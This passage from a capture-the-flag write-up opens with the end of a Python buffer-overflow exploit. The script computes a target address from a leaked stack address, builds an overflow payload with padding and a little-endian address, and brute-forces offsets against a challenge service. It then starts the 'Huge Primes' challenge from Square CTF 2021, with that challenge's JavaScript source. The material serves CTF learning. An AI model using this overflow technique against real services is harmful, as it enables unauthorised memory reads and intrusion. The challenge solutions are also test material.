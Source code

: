 ```py
        hex_address = address_match.group(0)  # the hex address
    else:
        raise 'No address found in the output.'

    # parse address as hex
    # int takes (string to convert, base to convert within)
    address = int(hex_address, 16)

    new_address = hex(address - offset)[2:] # hex, chopping off '0x'

    print(f'We are at {hex_address}. reading at {new_address}')
    little_endian_encoded = to_little_endian(new_address)

    buffer_overflow = 'a'*17
    padding = '0' * (64 - len(little_endian_encoded)) # pad 64 bit address, little endian encoded?
    payload = buffer_overflow + padding + little_endian_encoded
    conn.send(payload.encode('utf-8')) # send our new address back

    response = conn.recv()
    response_str = response.decode('utf-8')
    if len(response_str) > len('Here are the contents of 0x7fff64b6fa37: \n'):
        print(response_str)

    # Close the connection
    conn.close()

for offset in range(13, 25):
    hack(offset)
```

## Huge Primes (2021)

<https://squarectf.com/2021/hugeprimes.html>

> Find the prime factors of `22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477`

This challenge is designed to trick you.

Factoring this really large number is going to be incredibly difficult.

This is really a challenge about binary numbers in JavaScript.

We are provided with the file `sourcecode.js`:

```js
const express = require("express");
const bodyParser = require("body-parser");
const app = express();
const hugeProductOfPrimes = 22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477;
const flag = ";)";
const correct = "Correct! Here is your flag: " + flag;
const incorrect = "Incorrect factors! Try again";

// Constants
const PORT = 8080;
const HOST = "0.0.0.0";

app.set("view engine", "ejs");

app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);

app.use(bodyParser.urlencoded({ extended: true }));

```